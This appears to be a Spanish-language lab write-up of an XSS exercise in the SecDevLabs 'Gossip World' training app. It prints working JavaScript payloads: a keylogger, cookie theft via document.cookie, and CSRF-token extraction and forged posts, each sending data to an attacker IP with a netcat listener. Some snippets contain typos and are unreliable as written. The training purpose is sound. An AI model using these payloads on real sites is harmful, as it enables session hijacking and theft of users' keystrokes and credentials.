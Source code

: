 ```yaml
---
layout: post
title: XSS SecDevLabs
date: 2023-05-05
description:
cover_id: img/articulos/xss-secdevlabs/xss-secdevlabs.png
fig-caption:
tags: []
---
```

___

<center><img src="/img/articulos/xss-secdevlabs/xss-secdevlabs.png" alt=""></center>

# Instalación

```null
git clone https://github.com/globocom/secDevLabs
```

```null
cd gossip-world
```

```null
make install
```

Esto creará un servicio que corre en el equipo local por el puerto 10007

```null
SecDevLabs: 👀  Your app is starting!
SecDevLabs: 👀  Your app is still starting... (---*----) 
SecDevLabs: 🔥  A7 - Gossip World is now running at http://localhost:10007
```

# Explotación

Lo primero que aparece es un panel de inicio de sesión

<img src="/img/articulos/xss-secdevlabs/1.png" alt="">

Creo dos usuarios con las siguientes credenciales:

```null
admin:admin123$!
rubbx:rubbx123$!
```

Inicio sesión como ```rubbx```. Puedo ver una nueva interfaz

<img src="/img/articulos/xss-secdevlabs/2.png" alt="">

El campo ```New gossip```es vulnerable a inyección XSS

<img src="/img/articulos/xss-secdevlabs/3.png" alt="">

Las etiquetas script no las interpreta si trato de cargar un elemento externo hasta que no abro el post

<img src="/img/articulos/xss-secdevlabs/4.png" alt="">

En una sesión de ```netcat``` recibo la petición

```null
nc -nlvp 80
listening on [any] 80 ...
connect to [192.168.16.130] from (UNKNOWN) [192.168.16.130] 37628
GET /pwned.js HTTP/1.1
Host: 192.168.16.130
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: */*
Referer: http://localhost:10007/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

Creo un servicio HTTP con ```python``` por el puerto 80

```null
python3 -m http.server 80
```

Y un archivo ```pwned.js``` donde introduciré mi código JavaScript. Algo que se puede hacer es tratar de abrir una ventana emergente en la que el usuario introduzca su input

```null
var user_input = prompt("Ventana emergente", "Ejemplo de input")
```

<img src="/img/articulos/xss-secdevlabs/5.png" alt="">

Puedo además validar si el campo tiene contenido o está vacío. En caso contrario, se tramitará una petición a mi equipo con los datos

```null
if (user_input == null || user_input == ""){
    alert("Campo vacío");
} else {
    fetch("http://192.168.16.130:8080/?user_input=" + user_input);
}
```

Incluso se puede derivar a un Keylogger

```null
var characters = "";
document.onkeypress = function(event) {
    var character = event.key;

    characters += character;

    var image = new Image();
    image.src = "http://192.168.16.130/" + character;
};
```

Es posible redirigir un usuario a un sitio web

```null
window.location.href = "https://google.es";
```

Con respecto a las cookies, en caso de tener el ```HttpOnly``` en ```false```, se puede tratar de dumpear de la misma forma que antes al tramitar la petición, pero extrayéndola de  ```document.cookie```. Otra forma es utilizando XMLHttpRequest

```null
var request = New XMLHttpRequest();
var req = ('GET', 'http;//192.168.16.130/?cookie=' + document.cookie);
request.send();
```

Se puede derivar a un CSRF, para tramitar peticiones por GET o POST a algún elemento de la web como otro usuario. En este caso, se está arrastrando un CSRF token a la hora de crear una publicación, por lo que si quiero crear una a través de la inyección, tendría que obtenerlo

```null
title=test&subtitle=test&text=test&_csrf_token=9bddf12b-2445-4349-bf81-06af29147a4d
```

Se suele encontrar en un campo oculto en el código fuente

```null
curl -s -X GET http://localhost:10007/newgossip -H "Cookie: session=eyJfY3NyZl90b2tlbiI6IjliZGRmMTJiLTI0NDUtNDM0OS1iZjgxLTA2YWYyOTE0N2E0ZCIsInVzZXJuYW1lIjoicnViYngifQ.ZFU9eQ.-DuQJNNgO1NjTzUVJscv51nZe-E" | grep csrf | grep -oP '".*?"'
"_csrf_token"
"hidden"
"9bddf12b-2445-4349-bf81-06af29147a4d"
```

Lo extraigo desde la inyección XSS

```null
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open = ('GET', domain, false);
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
req2.open('GET', 'http://192.168.16.130/?token=' + token);
req2.send();
```

Para crear el post se puede realizar de la siguiente forma:

```null
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.withCredentials = true;
req1.open = ('GET', domain, false);
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=test&subtitle=test&text=test&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

